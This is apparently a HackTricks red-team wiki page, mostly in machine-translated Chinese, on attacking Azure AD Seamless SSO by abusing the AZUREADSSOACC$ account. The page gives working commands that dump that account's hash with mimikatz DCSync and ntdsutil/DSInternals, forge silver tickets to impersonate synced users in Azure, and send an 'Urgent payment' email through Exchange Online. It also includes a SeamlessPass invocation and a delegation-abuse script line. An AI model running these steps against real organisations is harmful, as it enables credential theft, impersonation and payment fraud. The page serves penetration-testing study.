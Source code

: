 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) 自动**在用户使用连接到公司网络的公司设备时自动登录**。启用后，**用户无需输入密码即可登录 Azure AD**，通常甚至无需输入用户名。此功能为用户提供了轻松访问基于云的应用程序的方式，而无需任何额外的本地组件。

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

基本上，Azure AD Seamless SSO **在用户** **在本地域加入的 PC 上** **自动登录**。

它支持 [**PHS (密码哈希同步)**](phs-password-hash-sync.md) 和 [**PTA (透传身份验证)**](pta-pass-through-authentication.md)。

桌面 SSO 使用 **Kerberos** 进行身份验证。配置后，Azure AD Connect 在本地 AD 中创建一个名为 **AZUREADSSOACC`$`** 的 **计算机帐户**。`AZUREADSSOACC$` 帐户的密码在配置期间**以明文形式发送到 Azure AD**。

**Kerberos 票证**使用密码的 **NTHash (MD4)** 进行 **加密**，Azure AD 使用发送的密码解密票证。

**Azure AD** 暴露一个 **端点** (https://autologon.microsoftazuread-sso.com)，接受 Kerberos **票证**。域加入机器的浏览器将票证转发到此端点以实现 SSO。

### On-prem -> cloud

用户 **`AZUREADSSOACC$` 的密码** **从不更改**。因此，域管理员可以破解该 **帐户的哈希**，然后使用它来 **创建银票** 以连接到 Azure，使用 **任何已同步的本地用户**：
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
使用该哈希值，您现在可以**生成银票**：
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
要利用银票，应执行以下步骤：

1. **启动浏览器：** 应启动Mozilla Firefox。
2. **配置浏览器：**
* 导航到 **`about:config`**。
* 将 [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) 的首选项设置为指定的 [值](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically)：
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **访问Web应用程序：**
* 访问与组织的AAD域集成的Web应用程序。一个常见的例子是 [Office 365](https://portal.office.com/)。
4. **身份验证过程：**
* 在登录屏幕上，应输入用户名，密码字段留空。
* 要继续，请按TAB或ENTER。

{% hint style="success" %}
这不会绕过启用的MFA
{% endhint %}

#### 选项2，无需dcsync - SeamlessPass

也可以执行此攻击 **而不进行dcsync攻击**，以更隐蔽，如 [在这篇博客文章中解释](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/)。为此，您只需以下之一：

* **被攻陷用户的TGT：** 即使您没有，但用户被攻陷，您也可以使用许多工具中实现的假TGT委派技巧获取一个，例如 [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) 和 [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9)。
* **黄金票证**：如果您拥有KRBTGT密钥，您可以为被攻击用户创建所需的TGT。
* **被攻陷用户的NTLM哈希或AES密钥：** SeamlessPass将使用此信息与域控制器通信以生成TGT。
* **AZUREADSSOACC$账户NTLM哈希或AES密钥：** 使用此信息和用户的安全标识符（SID）进行攻击，可以创建服务票证并与云进行身份验证（如前面的方法所示）。

最后，使用TGT可以使用工具 [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) 进行： 

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

有关将 Firefox 设置为与无缝 SSO 一起使用的更多信息，可以在 [**此博客文章中找到**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/)。

#### ~~为仅云用户创建 Kerberos 票证~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

如果 Active Directory 管理员可以访问 Azure AD Connect，他们可以 **为任何云用户设置 SID**。这样，Kerberos **票证**也可以 **为仅云用户创建**。唯一的要求是 SID 是一个合适的 [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\))。

{% hint style="danger" %}
更改仅云管理员用户的 SID 现在已被 **微软阻止**。\
有关信息，请查看 [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
{% endhint %}

### 本地 -> 云通过基于资源的受限委派 <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

任何可以管理计算机帐户 (`AZUREADSSOACC$`) 的人，在该帐户所在的容器或 OU 中，都可以 **配置基于资源的受限委派并访问它**。
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [TR19: 我在你的云中，阅读每个人的电子邮件 - 通过 Active Directory 黑客攻击 Azure AD](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
学习和实践 AWS 黑客攻击：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客攻击：<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
